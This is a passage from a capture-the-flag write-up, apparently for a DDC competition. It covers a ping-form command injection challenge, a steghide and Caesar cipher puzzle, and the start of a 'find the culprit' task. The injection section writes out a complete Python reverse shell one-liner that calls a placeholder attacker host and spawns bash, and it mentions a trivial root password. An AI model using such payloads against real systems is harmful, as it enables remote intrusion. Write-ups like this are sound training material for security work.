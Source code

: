 Now we can read the flag from the root directory:
``DDC{v3ry-funny-cr0n-j0b}``

### Challenge 21
###### 957pts - 3 solves - Easy
I did not solve this challenge during the competition but figured out the solution after it ended.

We are greeted with a classic web interface with the ping command. For anyone experienced in CTFs, this should already scream Command Injection, and sure enough, it was.

We could simply do ``; ls``, and it would run our command.

From here, we can just use Python to create a simple reverse shell:

``; python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("<IPHERE>",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'``

After this, I was stuck for hours during the competition on how to privesc to root in order to read the flag.
After the competition, it turns out you simply just had to run ``su`` and the password was ``root``...

Once we are root we can read the flag: ``DDC{B2uZ71MHnxTVOoaMDWZWZDsm2Qr}``

I also struggled a ton with getting a proper reverse shell during the competition. After it ended, I tested it using the browser lab and instantly got a shell. So, the lesson to learn here is to not trust WSL for reverse shells :)

## Misc

### Penpals and messages
###### 100pts - 75 solves - Very Easy
In this challenge, we are given an image and something about Caesar ciphers in the description.

By running Steghide, we can extract the text we need using:
``steghide extract -sf penpals.jpg``

Which gives us the following text:
``Aipp_hsri_mr_mh_mx``

By Caesar Shifting this text by 4, we get the text we need for the flag:
``Well_done_in_id_it``

Which seems a bit odd, but gives us the correct flag:
``DDC{Well_done_in_id_it}``

After talking with the organizers after the event, it turns out there were some issues with the challenge and CTFd flag not matching up. The intended flag was ``DDC{Well_done_you_did_it}``, but the actual flag in the challenge was added as a correct flag on CTFd a little after the competition started.

### Find the culprit
###### 162pts - 162 solves - Easy
For this challenge, we are given a few folders with a bunch of employees and tasked with finding the right one. All we have to go on is ``EYG_Ziokznygxk``.
